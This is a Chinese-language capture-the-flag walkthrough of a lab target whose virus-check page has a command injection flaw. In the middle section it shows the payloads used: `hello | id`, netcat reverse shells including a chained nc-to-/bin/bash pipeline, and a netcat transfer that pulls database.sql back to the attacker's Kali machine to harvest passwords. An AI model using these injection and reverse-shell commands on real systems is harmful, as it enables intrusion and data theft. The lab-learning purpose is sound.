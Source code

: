 进入后我们通过阅读网页的信息，可以发现是一个病毒的检测平台。你可以通过输入相关的文件名来检测其安全性。

![image-20230516202314104](http://image.cchl.fun/kali_image/image-20230516202314104.png)

![image-20230516202357103](http://image.cchl.fun/kali_image/image-20230516202357103.png)



## 反弹shell

1. 我们可以明显的发现，这些文件都是在云端上的（靶机上的）。我们可以猜想是我们输入一个文本。靶机会将我们输入的文本填入到命令的执行中进行检测，可能类似于sql注入的命令注入。eg:`ant-virus 'text'`(ant-virus为一个靶机上假设的检测病毒的软件，‘txt'为我们的传入文本)。通过上面的分析我们可以尝试通过联合命令的注入执行来测试是否符合我们的猜想：`hello | id`  		[==(|)管道符的作用==](#tag1)<a id='back1'></a>

![image-20230516204141154](http://image.cchl.fun/kali_image/image-20230516204152048.png)

![image-20230516204202274](http://image.cchl.fun/kali_image/image-20230516204202274.png)

2. 通过刚刚的步骤，我们可以发现目标的主机存在命令的联合注入漏洞。通过`|`我们是可以上载其他命令的。通过这个特性我们可以通过非常简单的反弹shell进行连接。这一步我们可以通过多种方式进行。这里我们采用简最简单的`nc`工具的命令的以此完整的反弹shell。

    ==反弹shell是有多种方法的，python,c，命令，nc等等。我们需要根据不同情况如：靶机的状态，工具脚本的检测，脚本上传的难度等等。==`虽然nc在linux的发行版本中不是全部包含的，但是它非常常见的，利用好是非常关键的`

    1. 确定`nc`的位置。

        ![image-20230516204519229](http://image.cchl.fun/kali_image/image-20230516204519229.png)

        ![image-20230516204443611](C:/Users/27711/AppData/Roaming/Typora/typora-user-images/image-20230516204443611.png)

   2. 查看是否能够返向连接：`hello | nc 192.168.195.170 4444 `,测试成功。

      ![image-20230516204557177](http://image.cchl.fun/kali_image/image-20230516204557177.png)![image-20230516204707840](http://image.cchl.fun/kali_image/image-20230516204707840.png)

   3. 这一步很关键也很有趣。当我们发现nc可以正常工作的时候就和以通过`nc 192.168.195.170 4444 -e /bin/sh`来进行持续的返向连接的时候，我们发现是无法成功的我们就要猜测为什么了（1，存在一定的防护无法返向连接。2，nc在老版本中是么有`-e`这个参数的。）通过上面的返向连接的成功我们可以发现是可能2，是极为可能的。

      这里就要使用到一个技术`nc串联`进行老版本的nc反弹shell：						

      在本地监听3333,4444两个端口。上载`hello | nc 192.168.195.170 3333 | /bin/bash | nc 192.168.195.170 4444`。我们就可以在3333的监听端口输入命令，4444端口会返哈命令的执行结果。-------->[==具体讲解==](#tag2)		<a id ='back2'></a><img src="http://image.cchl.fun/kali_image/image-20230516205232727.png" alt="image-20230516205232727" style="zoom: 80%;" />
   
   4. 结合上一步的图片，我们可以查看靶机的相关信息。查阅`app.py`文件可以很明显的发现这是这是一个简单读的重定向的文件，通过你的登陆的状态和方式来进行网页的重定向。与此同时我们还会发现有个很敏感的文件`database.sql`文件。在kali的终端（和靶机进行输入命令的终端）输入`sqlite3/sqlite`发现靶机是没有本地的sql环境的。
   
      ![image-20230517143339301](http://image.cchl.fun/kali_image/image-20230517143339301.png)
   
   5. 进行`datebase.sql`文件的获取。在本机开启`nc -lnvp 5555 > db.sql`进行监听，同时将传输的信息写入到`db.sql`文件中。kali的终端（和靶机进行输入命令的终端）输入`nc 192.168.195.170 < database.sql`来表示将`database.sql`文件传给kali。
   
      <img src="http://image.cchl.fun/kali_image/image-20230517142743390.png" alt="image-20230517142743390" style="zoom:50%;" /><img src="http://image.cchl.fun/kali_image/image-20230517143747687.png" alt="image-20230517143747687" style="zoom:50%;" />
   
   6. 在kali本机进行数据库文件的分析。发现是有相关的字段的。尤其是`password`字段是非常重要的。因为我们在最开始的端口扫描发现是有`ssh`登陆的。----->[==具体解释==](#tag3)<a id ='back3'></a>
   
      <img src="http://image.cchl.fun/kali_image/image-20230517144934217.png" alt="image-20230517144934217" style="zoom:50%;" />
   